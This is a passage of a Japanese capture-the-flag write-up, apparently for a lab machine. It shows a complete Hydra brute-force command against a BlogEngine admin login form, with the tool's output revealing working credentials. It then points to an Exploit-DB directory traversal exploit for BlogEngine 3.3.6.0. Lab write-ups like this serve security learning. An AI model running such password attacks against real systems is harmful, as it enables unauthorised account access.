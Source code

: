 ## hydra


```
kali@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.29 http-form-post "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=yP%2BzZRxWm7TkECRpYR3xwyRQYtrSszztGRNL4Uz9mctXTcwgfc1qtLY75IX1jHp0HBOCW28lEF5tb%2BktOBtj0SvgoywSBQKL7%2FKJZIHtxXUJVmQvNfEY%2Fq8bLMW7GBXwZ2zCppergFAlHYy8GsmMHW5lrR7w5QqkuUN6ltqTthT8QNUGGZSatX%2F%2FoJCgDZ86oPs93zkwRW0MPVsr7NXTrNZ2KfrEPkMX1%2BsztKZ3dsdI2NG0uLiRSaHKhzwJMrF5OvosCFxofyf61XMfVJkZdWOtsLvWCq9EAt7gS%2BIOXntnaLiot0g%2FYn8pbxC%2Bbq3WEvXX3chl2wGEG8ruqZyMgy8%2BejIN0YpW8OuwcW5tV%2FJmHLlT&__EVENTVALIDATION=k0kn6DqmKUOJ%2B6N01uhNQe5F%2BcmhCqbUvlNVFkf%2BJRFXXYWAkhK3vlUrmM2UP%2F5IMDuOe1xqGkRIqurysUyg8t0T2zCDeuwv%2FZPfVcCdBDiWBaG2TFXif8nB8Xp0iAgP56Rd%2FENNzNEj01U7YAYX2f7fvPpsICyxn1r1st8N9aFCrWcQ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 14:23:06

[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.205.29:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=yP%2BzZRxWm7TkECRpYR3xwyRQYtrSszztGRNL4Uz9mctXTcwgfc1qtLY75IX1jHp0HBOCW28lEF5tb%2BktOBtj0SvgoywSBQKL7%2FKJZIHtxXUJVmQvNfEY%2Fq8bLMW7GBXwZ2zCppergFAlHYy8GsmMHW5lrR7w5QqkuUN6ltqTthT8QNUGGZSatX%2F%2FoJCgDZ86oPs93zkwRW0MPVsr7NXTrNZ2KfrEPkMX1%2BsztKZ3dsdI2NG0uLiRSaHKhzwJMrF5OvosCFxofyf61XMfVJkZdWOtsLvWCq9EAt7gS%2BIOXntnaLiot0g%2FYn8pbxC%2Bbq3WEvXX3chl2wGEG8ruqZyMgy8%2BejIN0YpW8OuwcW5tV%2FJmHLlT&__EVENTVALIDATION=k0kn6DqmKUOJ%2B6N01uhNQe5F%2BcmhCqbUvlNVFkf%2BJRFXXYWAkhK3vlUrmM2UP%2F5IMDuOe1xqGkRIqurysUyg8t0T2zCDeuwv%2FZPfVcCdBDiWBaG2TFXif8nB8Xp0iAgP56Rd%2FENNzNEj01U7YAYX2f7fvPpsICyxn1r1st8N9aFCrWcQ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 536.00 tries/min, 536 tries in 00:01h, 14343863 to do in 446:01h, 16 active
[80][http-post-form] host: 10.10.205.29   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 14:25:35

```

admin/1qaz2wsx でログインできそうです

## initial access

![スクリーンショット 2020-05-04 3.42.33.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a392c9d2-1617-97c9-a53c-3420b13e337a.png)

blogengine.net の version3.3.6.0 にはディレクトリトラバーサルの脆弱性があります。

![スクリーンショット 2020-05-04 21.34.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/4385205d-9795-c979-90bb-69a165a7e698.png)
https://www.exploit-db.com/exploits/46353

この exploit を使用します。
